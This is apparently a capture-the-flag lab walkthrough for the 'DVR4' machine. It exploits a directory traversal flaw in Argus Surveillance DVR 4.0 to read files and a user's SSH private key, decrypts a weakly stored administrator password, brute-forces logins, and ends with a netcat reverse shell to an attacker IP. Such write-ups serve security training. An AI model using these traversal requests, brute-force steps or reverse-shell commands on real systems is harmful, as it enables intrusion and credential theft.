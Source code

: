 # DVR4

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.179
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 14:10 +08
Nmap scan report for 192.168.201.179
Host is up (0.17s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

SSH is open on this Windows machine, so let's take note of that.&#x20;

### Argus Surveillance -> LFI SSH Key

Port 8080 hosted an Argus Surveillance instance:

<figure><img src="../../../.gitbook/assets/image (1766).png" alt=""><figcaption></figcaption></figure>

There are quite a few exploits for this software:

```
$ searchsploit argus                         
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Argus Surveillance DVR 4.0 - Unquoted Service Path         | windows/local/50261.txt
Argus Surveillance DVR 4.0 - Weak Password Encryption      | windows/local/50130.py
Argus Surveillance DVR 4.0.0.0 - Directory Traversal       | windows_x86/webapps/45296.txt
Argus Surveillance DVR 4.0.0.0 - Privilege Escalation      | windows_x86/local/45312.c
----------------------------------------------------------- ---------------------------------
```

The LFI one looks the easiest to exploit, and it involves using `curl`:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]
```
{% endcode %}

It works, so now we just need to find out what to read. I know that SSH is open, so we should be looking for a SSH private key of some user. On the website, we can view the users to see 2:

<figure><img src="../../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

`viewer` is one them, and we can try to read their private key:

```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAuuXhjQJhDjXBJkiIftPZng7N999zteWzSgthQ5fs9kOhbFzLQJ5J
Ybut0BIbPaUdOhNlQcuhAUZjaaMxnWLbDJgTETK8h162J81p9q6vR2zKpHu9Dhi1ksVyAP
<TRUNCATED>
```

Using this, we can `ssh` into the machine as `viewer`:

<figure><img src="../../../.gitbook/assets/image (3135).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Decryption -> SYSTEM Shell

I tested the LFI in reading the administrator flag, and it actually worked:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FAdministrator%2FDesktop%2fproof.txt&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
<FLAG>
```
{% endcode %}

This means that the application is being run by the administrator instead of `viewer`. There were other exploits that we didn't use yet. I found that the Weak Password Encryption was one of them. This involved reading the password hash from the configuration files of Argus.&#x20;

```
C:\ProgramData\PY_Software\Argus Surveillance DVR>type DVRParams.ini
<TRUNCATED>
LoginName0=Administrator
Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8                                    
```

We can decrypt this hash easily using the script:

```
$ python3 50130.py 

#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] ECB4:1
[+] 53D1:4
[+] 6069:W
[+] F641:a
[+] E03B:t
[+] D9BD:c
[+] 956B:h
[+] FE36:D
[+] BD8F:0
[+] 3CD9:g
[-] D9A8:Unknown
```

The last character is unknown. When looking at the script, it doesn't seem to map special characters within the dictionary. In this case, we can create a wordlist of the special characters.&#x20;

```
$ cat /usr/share/seclists/Fuzzing/special-chars.txt > wordlist.txt
$ sed -i -e 's/^/14WatchD0g/' wordlist.txt
```

Afterwards, we can attempt to brute force the `ssh` access using `hydra`:

```
$ hydra -l administrator -P wordlist.txt 192.168.201.179 ssh
```

However, this didn't work for some reason, so maybe the administrator does not have SSH access. Instead, I brute forced the passwords one by one with `RunasCs.exe` to check which worked.&#x20;

Eventually one worked:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g# whoami                               
[-] RunasCsException: CreateProcessWithLogonW failed with 1326                               
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ whoami                               
dvr4\administrator
```

Great! Now we just need to get a reverse shell. The exploits earlier have the `x86` tag, meaning that this is a 32-bit Windows computer and we should be using `nc32.exe` for a reverse shell.

Then, we just need to execute it:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ "C:\Windows\Tasks\nc.exe -e cmd.exe 1
92.168.45.191 21"
```

<figure><img src="../../../.gitbook/assets/image (1092).png" alt=""><figcaption></figcaption></figure>
